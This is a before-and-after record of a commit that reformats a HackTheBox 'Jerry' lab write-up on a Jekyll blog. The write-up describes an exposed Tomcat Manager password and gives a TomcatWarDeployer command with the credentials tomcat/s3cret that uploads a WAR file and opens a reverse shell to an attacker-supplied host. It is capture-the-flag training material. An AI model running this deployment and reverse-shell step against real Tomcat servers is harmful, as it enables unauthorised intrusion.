

Before and after one commit to s5dev/s5dev.github.io, a Jekyll site: the page built from _posts/2023-02-24-hackthebox-jerry-writeup-oscp.md, in a window 1280 px wide and 1400 px high, scrolled down 1947 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
fixed jerry writeup

````diff
--- a/_posts/2023-02-24-hackthebox-jerry-writeup-oscp.md
+++ b/_posts/2023-02-24-hackthebox-jerry-writeup-oscp.md
@@ -79,7 +78,7 @@
 
 #### Suspect 1
 
-If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly create a reverse shell out of this `Tomcat Manager` exposed in port `8080` with zero assistance from tooling. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in `<TOMCAT_HOME>/conf/tomcat-users.xml`. While trying to perform login, the error page actually exposes the password.
+If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly create a reverse shell out of this `Tomcat Manager` exposed in port `8080` with zero assistance from tooling. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in <TOMCAT_HOME>/conf/tomcat-users.xml. While trying to perform login, the error page actually exposes the password.
 
 ![Hackthebox - Jerry VM - Tomcat Manager Password exposure](/assets/media/htb-jerry-enumeration-2.png)
 
@@ -91,7 +90,9 @@
 
 Upon scrolling down in the same `Tomcat Manager` page, you may find an option to upload and deploy `war` file. This is where [`TomcatWarDeployer`](https://github.com/mgeeky/tomcatWarDeployer) comes useful. The only caveat was latest python 3.10 wasn't working with the script. I had to do bunch of changes as like `decode('utf-8')` & `encode()` between `str` and `byte` datastructure. This TomcatWarDeployer authenticate with `tomcat` user credentials and upload `jsp_app` and spawns a `reverse shell` in the same terminal.
 
-`> python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080`
+```shell
+kali $ python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080
+```
 
 ![Hackthebox - Jerry VM - Local Shell](/assets/media/htb-jerry-local-shell.png)
 
````
Also changed, not shown: other parts of _posts/2023-02-24-hackthebox-jerry-writeup-oscp.md (+1 -2 lines).
